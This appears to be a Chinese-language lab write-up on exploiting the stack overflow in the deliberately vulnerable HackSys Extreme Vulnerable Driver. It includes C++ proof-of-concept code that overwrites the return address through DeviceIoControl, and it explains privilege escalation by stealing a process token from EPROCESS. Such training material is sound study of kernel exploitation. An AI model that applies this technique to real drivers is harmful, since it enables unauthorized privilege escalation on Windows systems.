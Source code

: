 ### POC

```cpp
#include <stdio.h>
#include <windows.h>

int main()
{
    // open device 
    HANDLE dev = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);

    if (dev == INVALID_HANDLE_VALUE)
    {
        printf("open failed\n");
        system("pause");

        return -1;
    }

    printf("Device Handle: 0x%p\n", dev);

    CHAR* chBuffer;
    int chBufferLen = 0x818;
    
    chBuffer = (CHAR*)malloc(chBufferLen + 0x8 + 0x8 + 0x8);
    memset(chBuffer, 0xff, chBufferLen);
    memset(chBuffer + chBufferLen, 0x41, 0x8);
    memset(chBuffer + chBufferLen + 0x8, 0x42, 0x8);
    memset(chBuffer + chBufferLen + 0x10, 0x43, 0x8);

    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(dev, 0x222003, chBuffer, chBufferLen + 0x18, NULL, 0, &size_returned, NULL);
    CloseHandle(dev);
    system("pause");

    return 0;
}
```

首先打开这个设备，然后于这个设备进行交互，通过调试，可以看到最后`ret`的时候，`rip`跳转到了`0x4141414141414141`

### EXP

现在要做的就是提权之后再打开一个`cmd`

目前第一个栈溢出的实验，是没开`SMEP`，因此可以直接跳转到用户态的空间执行指令，就可以直接`VirtualAlloc`一个可读可写可执行的页，从而直接执行提权的指令

这里是直接参考[[Kernel Exploitation] 2: Payloads](https://www.abatchy.com/2018/01/kernel-exploitation-2)的方法，窃取的进程级令牌

每个`windows`进程都有一个[EPROCESS](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/ps/eprocess/index.htm)结构体（`PEB`存在于用户空间），而这个`EPROCESS`结构包含一个`Token`字段，这个字段告诉系统该进程拥有什么权限，因此如果能找到特权进程的`Token`，将其偷过来，然后放到当前进程的`Token`上，就可以提权了
